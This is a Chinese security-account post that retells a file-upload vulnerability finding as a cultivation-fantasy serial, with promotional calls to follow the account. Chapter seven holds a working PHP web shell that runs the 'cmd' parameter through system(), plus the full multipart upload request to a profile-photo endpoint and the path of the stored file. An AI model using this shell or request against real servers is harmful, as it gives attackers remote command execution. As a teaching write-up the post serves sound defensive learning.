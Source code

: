#  全网震颤！黑客利用文件上传漏洞化身“虚空主宰”，百万服务器集体沦陷！   
勤奋的运营姐姐  EnhancerSec   2025-05-24 00:01  
  
**甲方安全团队看到会连夜排查文件上传接口！**  
  
**白帽子边骂“这漏洞太低级”边点进来学绕过技巧！！**  
  
**普通用户误以为是科幻小说，点开却被技术细节震撼！！！**  
  
**算法推荐因“史诗级”“百万”等关键词疯狂推送！！！！**  
  
**你还在犹豫什么！速速点击关注公众号加入我们吧！！！！！**  
## 第六章：黑产老祖的「肉鸡」竟是我自己？  
  
林陌脚踏「域混淆身法」从黑产老祖掌心遁走，神识中系统狂鸣：【吞噬CSRF漏洞进度15%，解锁「因果篡改」第二重！】  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOK7dJKjrmt3173sIib2aExxF55DqL62qKts8GCJ48mHibH5Ylmd1QSy46g/640?wx_fmt=png&from=appmsg "")  
  
他刚喘口气，眼前突然炸开一道血色任务卷轴：  
**「劫掠系统，炼化RCE漏洞者赏750灵石！」**  
  
“呵，这点灵石也配让本尊出手？”林陌冷笑，却瞥见卷轴角落的暗纹——那竟是黑产老祖的独门印记！  
  
“老东西，想用我的刀替你开路？”他捏碎卷轴，神识却突然剧痛——  
  
自己留存在幽冥漏洞中的一缕分魂，竟被炼成了「肉鸡傀儡」！  
## 第七章：当我在修真界玩转文件上传  
  
“既要破局，便用你的饵钓我的鱼！”林陌指尖燃起数据之火，循着分魂感应杀入系统。  
  
虚空浮现「用户画像」界面，他祭出数据之眼：【检测到/mobile/update-photo灵脉节点，无扩展名禁制！】  
  
“连最基础的「后缀封印」都没有？”林陌嗤笑，掌心凝聚血色代码：“那便让你见识什么叫「虚空裂魂大法」！”  
  
他双手结印，在Burp Suite炼制的「窥天镜」中刻下邪咒：  
```
<?phpif(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd);}?>
```  
  
“以.jpg为皮，.php为骨，这招「画皮夺舍」可还入得老祖法眼？”  
  
于是他通过以下请求上传了文件：  
```
POST /mobile/update-photo HTTP/2Host: xxx.xxx.comCookie: [Cookie terkait sesi pengguna]Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEfvVAWnBQLlnzk1m------WebKitFormBoundaryEfvVAWnBQLlnzk1mContent-Disposition: form-data; name="file_photo";filename="malicious.php"Content-Type: application/x-php<?phpif(isset($_REQUEST['cmd'])){$cmd = ($_REQUEST['cmd']); system($cmd);}?>------WebKitFormBoundaryEfvVAWnBQLlnzk1m--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOK24V6dGxsIgibf1uEvl02co9TC0jt3BuBEGFEVKPmjPZp26o0KVaqFZQ/640?wx_fmt=png&from=appmsg "")  
  
林陌的文件已成功上传，且没有进行任何进一步验证。接下来，他开始试图找出上传文件的存储位置，发现就在  
/assets/images/profile路径下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOKvju0eL01icNy3N0t5FSW1kRIeucq3LL8xXib4CicpCJaXnqWsias8OZsGw/640?wx_fmt=png&from=appmsg "")  
## 第八章：炼化CloudWAF！我的本命法器是台服务器  
  
恶意文件上传成功的瞬间，九天雷云汇聚！系统的「护宗大阵」CloudWAF轰然启动，金色符文锁链绞杀而来。  
  
“雕虫小技。”林陌咬破舌尖，喷出精血激活分魂傀儡：“给我开！”  
  
傀儡双目赤红，强行撕开/assets/images/profile路径，霎时天地变色——  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOKLGibKQyaFWrxb5iaRh4J2vFsuu5QA5QLia7qWxicFUFq5nZ1nqV7OG6x8A/640?wx_fmt=png&from=appmsg "")  
  
一台Windows Server 2019巨兽浮现云端，经脉中流淌着ipconfig、systeminfo等「系统秘术」。林陌飞身踏上服务器，脚下代码如龙蛇游走：  
  
“从今往后，你便是本尊的「云中剑冢」！”  
  
突然，服务器日志中迸发猩红警告：【检测到TT_SSV神识标记！】  
## 第九章：TT玄武实验室的诛仙阵  
  
“林陌，你果然入了魔道！”  
  
白袍少年脚踏WAF诛仙阵图从天而降，身后悬浮着腾讯玄武实验室的「天机罗盘」。无数SQL注入、XSS攻击化作剑气纵横，却都被林陌脚下的服务器吞噬。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOKk49wqiaKqPg5s398DKVeFoUMrALDkgcb6EgSKTvayRfJGf8sTlJOn5Q/640?wx_fmt=png&from=appmsg "")  
  
“张正阳，看看这是谁的手笔？”林陌狞笑着展开黑产老祖的密令，服务器屏幕突然播放出一段监控画面——  **TT玄武实验室首席长老，正在向暗网剑宗输送0day漏洞！**  
  
（系统尖叫：【吞噬RCE漏洞进度30%，觉醒「傀儡反转」禁术！】）  
### 下期预告  
  
· 林陌反手将玄武长老炼成漏洞诱饵！  
  
· 黑产老祖的真正身份竟是……  
## 欲知后事如何？关注公众号，加入QQ群，且听下回分解！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DLnxHnM3icnKaYpt08cB5goSe5xHDicicOKJER5MeHwO05jRrAzHHBz2WyuB8H3nk2ibDTV1cwJXYvOAkS4RCTBAaA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
